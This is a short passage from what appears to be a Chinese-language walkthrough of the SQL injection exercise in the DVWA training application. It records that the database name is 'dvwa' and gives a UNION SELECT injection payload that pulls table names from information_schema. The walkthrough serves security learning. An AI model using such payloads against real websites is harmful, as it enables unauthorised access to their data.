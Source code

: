 <img src="/assets/images/posts/dvwa/sql/6.png">

当前数据库名为dvwa

### 5. 获取数据库中的表

抓包更改参数为`1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()`,查询成功